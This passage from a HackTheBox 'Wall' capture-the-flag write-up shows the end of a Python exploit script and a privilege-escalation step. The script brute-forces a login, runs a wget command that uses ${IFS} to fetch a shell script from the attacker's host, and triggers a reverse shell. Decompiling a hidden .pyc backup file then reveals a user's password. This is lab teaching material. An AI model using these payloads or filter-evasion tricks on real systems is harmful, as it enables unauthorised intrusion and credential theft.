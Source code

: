 ```py
    webServer()
    # Let's bruteforce the user
    loginRequest(rhost,wordlist,username)
    # Let's mount the payload
    mountPayload(lhost,lport)
    # Let's download it to the server
    payload = "wget${IFS}%s/payload.txt${IFS}-O${IFS}/tmp/shell.sh" %lhost
    uploadMalicious(rhost,lhost,payload)
    # Let's trigger it
    reverseShell(lhost,rhost)

if __name__ == '__main__':
    main()
```

Got it!

# www-data -> Shelby

Now let's start our privilege escalation on this box.

On the `/opt` folder we get a hidden folder with a `.pyc` file. Which is a python byte-compiled file.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-07-HackTheBox-Wall/2021-09-07-HackTheBox-Wall%2002:36:32.png)

We install uncompyle2

[Uncompyle2](https://github.com/wibiti/uncompyle2)

And run on it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-07-HackTheBox-Wall/2021-09-07-HackTheBox-Wall%2003:02:09.png)

backup.py

```py
# 2021.09.17 15:01:22 EDT
username = 'shelby'
password = ''
password += chr(ord('S'))
password += chr(ord('h'))
password += chr(ord('e'))
password += chr(ord('l'))
password += chr(ord('b'))
password += chr(ord('y'))
password += chr(ord('P'))
password += chr(ord('a'))
password += chr(ord('s'))
password += chr(ord('s'))
password += chr(ord('w'))
password += chr(ord('@'))
password += chr(ord('r'))
password += chr(ord('d'))
password += chr(ord('I'))
password += chr(ord('s'))
password += chr(ord('S'))
password += chr(ord('t'))
password += chr(ord('r'))
password += chr(ord('o'))
password += chr(ord('n'))
password += chr(ord('g'))
password += chr(ord('!'))
print(username + ":" + password)
print '[+] Done !'
```